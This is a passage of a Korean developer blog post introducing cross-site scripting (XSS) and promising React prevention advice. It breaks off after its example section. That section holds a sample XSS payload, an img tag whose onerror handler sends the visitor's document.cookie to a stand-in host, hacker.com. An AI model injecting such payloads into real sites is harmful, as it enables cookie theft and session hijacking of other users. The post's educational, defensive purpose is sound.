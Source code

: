```yaml
---
layout: post
title: "사이트 간 스크립팅"
date: "2019-02-21"
categories:
- DevLog
excerpt: |
  사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.
feature_text: |
  ## 사이트 간 스크립팅(cross-site scripting)
  사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.
feature_image: "https://images.unsplash.com/photo-1511389026070-a14ae610a1be?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1350&q=80"
image: "https://images.unsplash.com/photo-1511389026070-a14ae610a1be?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1350&q=80"
---
```


## 목차
- [개요](#1)
- [예제](#2)
- [예방 방법](#3)
- [React에서의 XSS](#4)
- [결론](#5)
- [참고문헌 및 출처](#6)

<p id="1">오늘은 사이트 간 스크립팅(XSS)에 대해 알아보자. React에서 XSS가 어떤 식으로 이루어지는지, 어떻게 예방할 수 있는지 알아본다.</p>
<br />
## 개요
사이트 간 스크립팅(Cross-site Scripting) 또는 XSS 공격은 웹 어플리케이션 **관리자가 아닌 사용자가 웹 어플리케이션에 악성 스크립트를 삽입해 다른 사용자의 정보 등을 탈취하는 공격을 의미**한다. 주로 웹 어플리케이션의 사용자로부터 입력 받은 값을 충분히 검사하지 않고 사용할 경우 발생한다.

해커가 **사용자의 정보(쿠키, 세션 등)를 탈취하거나, 자동으로 비정상적인 기능을 수행하게 할 수 있다.** 주로 다른 웹사이트와 정보를 교환하는 식으로 작동하기에 사이트 간 스크립팅이라고 불린다.

주로 게시판 등 사용자에 허용된 인풋을 활용하여 악성 스크립트를 포스팅 하는 방식으로 이루어진다.

XSS는 손쉬운 공격방법으로 매우 광범위하게 이용되어 정보 자산을 보호하는 데 가장 큰 위험 중 하나라고 할 수 있다.
<br id="2"/><br />
## 예제
다음과 같은 게시판이 있다고 하자.<br />

<img alt="board text inputs" src="https://github.com/ChaeWonKong/chaewonkong.github.io/blob/master/assets/post_img/harusijak.png?raw=true" max-width="80px"/>

<br />
만약 악의적인 사용자가 textarea에 아래와 같은 코드를 삽입한다면 어떻게 될까?
(보기 편하도록 일부러 줄바꿈을 하였다)
```html
<p>Hello! I am a hacker.</p>
<img src="#" width="0" height="0"
onerror="this.src='http://hacker.com/gatherCookie.php?cookie=
'+encodeURIComponent(document.cookie);" />
```
